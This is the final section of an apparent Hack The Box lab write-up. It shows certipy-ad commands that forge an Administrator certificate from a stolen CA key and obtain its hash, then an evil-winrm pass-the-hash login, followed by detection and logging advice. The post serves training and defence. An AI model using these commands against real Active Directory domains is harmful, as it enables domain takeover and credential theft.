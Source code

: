 ### Final Escalation — Forging Golden Certificate

After obtaining the `.pfx` in our hands we can proceed to forge our own certificate for the `Administrator` account and then finally achieve our final goal.

```shell
┌───(root㉿kali)-[~/HTB/Certificate]
└─$ certipy-ad forge -ca-pfx 'ca.pfx' -upn 'administrator@CERTIFICATE.HTB' -out 'GoldenCert.pfx'

┌───(root㉿kali)-[~/HTB/Certificate]
└─$ certipy-ad auth -pfx 'GoldenCert.pfx' -dc-ip 10.10.11.71 -user 'Administrator' -domain 'CERTIFICATE.HTB'
```

**Output**:
```
[*] Got hash for 'administrator@certificate.htb': [REDACTED-HASH]
```

Now let's out root flag !
```shell
┌───(root㉿kali)-[~/HTB/Certificate]
└─$ evil-winrm -i 10.10.11.71 -u Administrator -H '[REDACTED]'
```
![8](/assets/img/favicons/certificate-htb/root-flag.png)


### Detection & Logging

1. Alert on certutil `-exportPFX`, `certreq` operations, and creation of `.pfx` files on workstations/servers.

2. Monitor for unusual certificate requests: Non-admin principals requesting CA templates with high privileges.

3. SIEM: Create rules for EventID `4662` (Directory Service Changes) on certificate templates and EventID `4769/4770` (Kerberos) anomalies.

4. File-monitoring: Detect concatenated zip indicators (multiple central directory headers) and unusual file types in web uploads; integrate YARA signatures.


### Resources

1. [Krb5RoastParser](https://github.com/jalvarezz13/Krb5RoastParser)

2. [ADCS ESC3: Enrollment Agent Template](https://www.hackingarticles.in/adcs-esc3-enrollment-agent-template/)